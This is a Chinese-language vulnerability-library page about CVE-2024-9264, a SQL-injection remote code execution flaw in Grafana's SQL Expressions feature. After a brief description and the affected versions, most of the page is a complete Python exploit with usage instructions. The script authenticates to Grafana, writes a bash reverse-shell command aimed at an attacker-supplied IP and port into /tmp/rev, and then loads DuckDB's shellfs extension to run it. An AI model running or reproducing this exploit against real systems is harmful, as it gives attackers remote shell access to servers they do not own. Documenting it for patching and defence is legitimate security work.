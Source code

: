 ```yaml
---
title: Grafana SQL表达式允许远程代码执行(CVE-2024-9264)
date: 2025-06-14 23:16:00 +0800
last_modified_at: 2025-06-14 23:16:00 +0800
categories: [漏洞库]
tags: [漏洞库 , RCE , Grafana]
math: true
mermaid: true
---
```



- [0x00 前言](#0x00-前言)
- [0x01 漏洞描述](#0x01-漏洞描述)
- [0x02 CVE编号](#0x02-cve编号)
- [0x03 影响版本](#0x03-影响版本)
- [0x04 漏洞详情](#0x04-漏洞详情)

# 0x00 前言
Grafana是一个跨平台的开源的度量分析和可视化工具，可以通过将采集的数据查询然后可视化的展示，并及时通知。用Go语言开发的开源数据可视化工具，可以做数据监控和数据统计，带有告警功能。目前使用grafana的公司有很多，如paypal、ebay、intel等。

# 0x01 漏洞描述
Grafana实验性SQL表达式功能中的一个DuckDB SQL注入漏洞。这些查询在传递给之前未经过充分清理duckdb，导致命令注入和本地文件包含漏洞。

漏洞源于一个名为 “SQL 表达式 ”的实验性功能，它允许用户使用 SQL 对数据源查询进行后处理。

攻击者可以精心设计查询，摆脱预定的 SQL 上下文，执行系统命令或访问服务器上的敏感文件。

# 0x02 CVE编号

**CVE-2024-9264**

# 0x03 影响版本

Grafana >= v11.0.0 (all v11.x.y are impacted)

# 0x04 漏洞详情
[**POC**](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)：`https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit`

Usage：`python3 poc.py [--url <target>] [--username <username>] [--password <password>] [--reverse-ip <IP>] [--reverse-port <PORT>]`

Example：`python poc.py --url http://127.0.0.1:3000 --username eviluser --password eviluser --reverse-ip 10.10.1.41 --reverse-port 9001`

    import requests
    import argparse

    """
    Grafana Remote Code Execution (CVE-2024-9264) via SQL Expressions
    See here: https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/

    Author: z3k0sec // www.zekosec.com
    """

    def authenticate(grafana_url, username, password):
        """
        Authenticate to the Grafana instance.

        Args:
            grafana_url (str): The URL of the Grafana instance.
            username (str): The username for authentication.
            password (str): The password for authentication.

        Returns:
            session (requests.Session): The authenticated session.
        """
        # Login URL
        login_url = f'{grafana_url}/login'

        # Login payload
        payload = {
            'user': username,
            'password': password
        }

        # Create a session to persist cookies
        session = requests.Session()

        # Perform the login
        response = session.post(login_url, json=payload)

        # Check if the login was successful
        if response.ok:
            print("[SUCCESS] Login successful!")
            return session  # Return the authenticated session
        else:
            print("[FAILURE] Login failed:", response.status_code, response.text)
            return None  # Return None if login fails

    def create_reverse_shell(session, grafana_url, reverse_ip, reverse_port):
        """
        Create a malicious reverse shell payload in Grafana.

        Args:
            session (requests.Session): The authenticated session.
            grafana_url (str): The URL of the Grafana instance.
            reverse_ip (str): The IP address for the reverse shell.
            reverse_port (str): The port for the reverse shell.
        """
        # Construct the reverse shell command
        reverse_shell_command = f"/dev/tcp/{reverse_ip}/{reverse_port} 0>&1"

        # Define the payload to create a reverse shell
        payload = {
            "queries": [
                {
                    "datasource": {
                        "name": "Expression",
                        "type": "__expr__",
                        "uid": "__expr__"
                    },
                    # Using the reverse shell command from the arguments
                    "expression": f"SELECT 1;COPY (SELECT 'sh -i >& {reverse_shell_command}') TO '/tmp/rev';",
                    "hide": False,
                    "refId": "B",
                    "type": "sql",
                    "window": ""
                }
            ]
        }

        # Send the POST request to execute the payload
        response = session.post(
            f"{grafana_url}/api/ds/query?ds_type=__expr__&expression=true&requestId=Q100",
            json=payload
        )

        if response.ok:
            print("Reverse shell payload sent successfully!")
            print("Set up a netcat listener on " + reverse_port)
        else:
            print("Failed to send payload:", response.status_code, response.text)

    def trigger_reverse_shell(session, grafana_url):
        """
        Trigger the reverse shell binary.

        Args:
            session (requests.Session): The authenticated session.
            grafana_url (str): The URL of the Grafana instance.
        """
        # SQL command to trigger the reverse shell
        payload = {
            "queries": [
                {
                    "datasource": {
                        "name": "Expression",
                        "type": "__expr__",
                        "uid": "__expr__"
                    },
                    # install and load the community extension "shellfs" to execute system commands (here: execute our reverse shell)
                    "expression": "SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('bash /tmp/rev |');",
                    "hide": False,
                    "refId": "B",
                    "type": "sql",
                    "window": ""
                }
            ]
        }

        # Trigger the reverse shell via POST
        response = session.post(
            f"{grafana_url}/api/ds/query?ds_type=__expr__&expression=true&requestId=Q100",
            json=payload
        )

        if response.ok:
            print("Triggered reverse shell successfully!")
        else:
            print("Failed to trigger reverse shell:", response.status_code, response.text)

    def main(grafana_url, username, password, reverse_ip, reverse_port):
        # Authenticate to Grafana
        session = authenticate(grafana_url, username, password)

        if session:
            # Create the reverse shell payload
            create_reverse_shell(session, grafana_url, reverse_ip, reverse_port)

            # Trigger the reverse shell binary
            trigger_reverse_shell(session, grafana_url)

    if __name__ == "__main__":
        # Set up command line argument parsing
        parser = argparse.ArgumentParser(description='Authenticate to Grafana and create a reverse shell payload')
        parser.add_argument('--url', required=True, help='Grafana URL (e.g., http://127.0.0.1:3000)')
        parser.add_argument('--username', required=True, help='Grafana username')
        parser.add_argument('--password', required=True, help='Grafana password')
        parser.add_argument('--reverse-ip', required=True, help='Reverse shell IP address')
        parser.add_argument('--reverse-port', required=True, help='Reverse shell port')

        args = parser.parse_args()

        # Call the main function with the provided arguments
        main(args.url, args.username, args.password, args.reverse_ip, args.reverse_port)